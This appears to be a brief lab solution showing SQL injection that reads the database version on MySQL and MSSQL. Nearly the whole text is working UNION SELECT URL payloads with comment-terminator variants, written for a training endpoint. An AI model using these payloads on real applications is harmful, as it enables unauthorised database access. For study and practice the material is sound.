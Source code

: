 # Querying database version on MySQL and Microsoft

## Solution 1 (MySQL)
Comment sign is "#" (%23 url-encoded).

`/filter?category=Lifestyle'+UNION+SELECT+NULL%23`: Internal Server Error

`/filter?category=Lifestyle'+UNION+SELECT+NULL,+NULL%23`: Ok (2 columns)

`/filter?category=Lifestyle'+UNION+SELECT+@@version,+NULL%23`: Solved

## Solution 2 (MySQL & MSSQL)
MySQL comment has the space after double dash (-- something):

`/filter?category=Pets'+UNION+SELECT+@@version,+NULL--+1`: Solved
